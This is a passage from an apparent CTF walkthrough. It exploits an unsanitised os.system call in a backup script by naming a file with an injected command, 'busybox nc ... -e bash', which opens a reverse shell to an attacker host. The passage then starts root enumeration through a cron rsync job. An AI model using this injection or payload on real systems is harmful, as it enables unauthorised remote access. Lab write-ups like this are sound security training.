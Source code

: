 ```bash
-rwxrwxr-- 1 plot_admin plot_admin 317 Feb  1  2022 /home/plot_admin/backup.py
```
that means we can read the file:
```bash
cat /home/plot_admin/backup.py
```
output:
```python
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```
in this code there is a string concatenation without sanitizaion, in fact if we can access the moodle_location folder, meaning we can write a command as a file name.<br>
In the loop our file will be concatenated in the `os.system` instruction.<br>
I started another listener on my local machine:
```bash
pwncat-cs -lp 7777
```
Then i created this payload:
```bash
cd /var/www/uploadedfiles/filedir/
touch -- ';$(busybox nc 10.8.79.118 7777 -e bash);'
```
We got a shell:
	
![plot_admin](./pic/plot_admin.png)
	

# Root

Now we can continue the enumeration towards root user.<br>
In fact in the crontab file i found an interesting script:
```bash
* *     * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
```
This seems like a log backup script.<br>
Let's see if there are some logrotate script.<br>
To do so i uploaded pspy and waited for some script, and saw this:
	